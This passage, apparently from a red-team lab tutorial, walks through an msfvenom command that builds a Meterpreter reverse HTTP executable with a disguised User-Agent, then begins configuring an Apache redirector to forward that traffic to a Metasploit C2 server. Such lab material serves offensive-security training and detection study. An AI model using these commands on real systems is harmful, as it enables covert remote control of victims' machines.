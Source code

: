 
  

UsingÂ Meterpreter, we have the ability to configure various aspects of theÂ HTTPÂ Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in theirÂ C2Â HTTP/HTTPS payloads. It's in everyÂ HTTPÂ request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate aÂ MeterpreterÂ ReverseÂ HTTPÂ payload using MSFvenom; then we will inspect theÂ HTTPÂ request in Wireshark.Â 

  

**Generating a Payload with Modified Headers -**

  

Generating a ModifiedHTTPPayload withMeterpreter

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use theÂ `HTTP`Â filter to only viewÂ HTTPÂ requests. After it's started capturing packets, execute the binary on the victim system. You will notice anÂ HTTPÂ request come in with our modified User-Agent.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/b842ee1430892fa04c092531b9383f4f.png)

_Packet Capture of the modifiedÂ HTTPÂ Payload with Meterpreter_

Now that we have a field we can control in theÂ HTTPÂ Request, let's create an Apache2 mod_rewrite rule that filters on the user agent "NotMeterpreter" and forward it to our Metasploit C2 Server.

Modifying the Apache Config File -Â 

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found atÂ `/etc/apache2/sites-available/000-default.conf`.

Default Apache2 Config

```shell-session
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'
<VirtualHost *:80>

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        <Directory>
                AllowOverride All
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

```
